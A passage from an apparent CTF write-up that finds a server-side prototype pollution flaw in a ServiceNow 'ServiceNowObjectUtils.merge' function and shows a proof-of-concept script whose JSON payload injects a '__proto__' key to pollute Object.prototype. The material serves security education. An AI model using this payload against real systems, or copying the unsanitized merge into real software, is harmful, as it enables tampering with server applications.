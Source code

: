 ```javascript
                    base[key] = obj[key];
                }
            }
        }
        return base;
    },
    type: 'ServiceNowObjectUtils'
};
```

In here, we can see the `merge` method is a **recursive merge function**, which means it **recursively merges an object into an existing object**.

However, if the recursive merge function **does NOT sanitize the keys, such as filters out key `__proto__`**, it's very likely to be **vulnerable to Prototype Pollution**. In our case, **the `merge` method doesn't sanitize the provided object's keys**! Therefore, class `ServiceNowObjectUtils` method `merge` is vulnerable to Prototype Pollution. More specifically, it's vulnerable to **Server-Side** Prototype Pollution, as it runs on the server-side.

> Note: For more information about Prototype Pollution, you could read this Medium blog post: [https://medium.com/@king.amit95/prototype-pollution-a-deeper-inspection-82a226796966](https://medium.com/@king.amit95/prototype-pollution-a-deeper-inspection-82a226796966).

Hmm... How can we **test it**?

In ServiceNow, we can **execute server-side JavaScript code via "Scripts - Background"** at `/sys.scripts.modern.do`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/San-Diego-CTF-2024/images/Pasted%20image%2020240513205200.png)

Now we can debug and execute server-side JavaScript code!

**Let's test out our Prototype Pollution PoC (Proof-of-Concept) with the following code!**
```javascript
var now = new global.ServiceNowObjectUtils();
var form_data = {}

// {
//     "foo": "bar",
//     "__proto__":
//     {
//         "polluteTarget": "polluted"
//     }
// }
meta = '{"foo":"bar", "__proto__":{"polluteTarget":"polluted"}}';
gs.log("[*] Payload JSON object: " + meta);

gs.log("[*] Before polluted: " + JSON.stringify(Object.prototype.polluteTarget));
gs.log("[*] Before merged form_data: " + JSON.stringify(form_data));

now.merge(form_data, JSON.parse(meta));

gs.log("[*] After polluted: " + JSON.stringify(Object.prototype.polluteTarget));
gs.log("[*] After merged form_data: " + JSON.stringify(form_data));
```
